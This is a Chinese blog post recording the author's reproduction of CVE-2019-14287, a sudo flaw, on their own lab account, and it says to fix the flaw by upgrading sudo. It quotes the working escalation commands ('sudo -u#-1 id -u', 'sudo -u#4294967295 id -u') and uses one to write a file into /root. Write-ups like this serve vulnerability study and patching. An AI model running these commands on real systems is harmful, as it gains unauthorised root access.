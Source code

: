 ```yaml
---
title: CVE-2019-14287复现记录
tags:
  - CVE
  - 漏洞
categories: 信息安全
keywords:
  - CVE
  - 漏洞
description: sudo命令直接提权
cover: https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2020-3-24/BogImages/1585040230572.png
abbrlink: be5b30a1
date: 2019-10-18 00:00:00
---
```


## 日常睡前刷资讯消息

前两天16号晚上十二点多，日常刷资讯的时候，忽然瞅见了一篇文章说受限用户可以运行root命令
普通用户执行root指令，这不就权限绕过了嘛~
是个好东西

![](https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2019-10-18/CVE-2019-14287复现记录/1571383854639.png)

这个漏洞是由苹果信息安全部门的大佬发现的，提供了漏洞的利用方式

> sudo -u#-1 id -u
> sudo -u#4294967295 id -u

这两个方式都可以
下面将本人复现记录放一下

## 动手复现

先添加一个账号tina

useradd tina
passwd tina
 然后在 /etc/sudoers这个文件中配置权限

![](https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2019-10-18/CVE-2019-14287复现记录/1571386098956.png)

接着 su tina 切换用户

![](https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2019-10-18/CVE-2019-14287复现记录/1571386133017.png)

尝试一下列出root目录内容

![](https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2019-10-18/CVE-2019-14287复现记录/1571386167287.png)

然后利用漏洞看一下

![](https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2019-10-18/CVE-2019-14287复现记录/1571385583872.png)

然后 试一下写入一个文件

![](https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2019-10-18/CVE-2019-14287复现记录/1571385550973.png)

![](https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2019-10-18/CVE-2019-14287复现记录/1571386335570.png)

![](https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2019-10-18/CVE-2019-14287复现记录/1571385515949.png)


![](https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2019-10-18/CVE-2019-14287复现记录/1571385583872.png)

可以看到是无法写入的

利用漏洞写看一下
 sudo -u#-1 vim /root/xuzhiting.txt


![](https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2019-10-18/CVE-2019-14287复现记录/1571386318184.png)

![](https://marxcbr.oss-cn-shenzhen.aliyuncs.com/MARXCBR/2019-10-18/CVE-2019-14287复现记录/1571386372613.png)
可以看到已经在root目录下写入了我们的文件

## 我们还是修复一下下漏洞吧

修复该咋个处理？
这个漏洞修复可以通过升级sudo版本来完成

文章部分内容参考此处：https://www.sudo.ws/alerts/minus_1_uid.html


<center>要是感觉不错的话，就留个言评论一下下呀，欢迎各位大哥指正</center>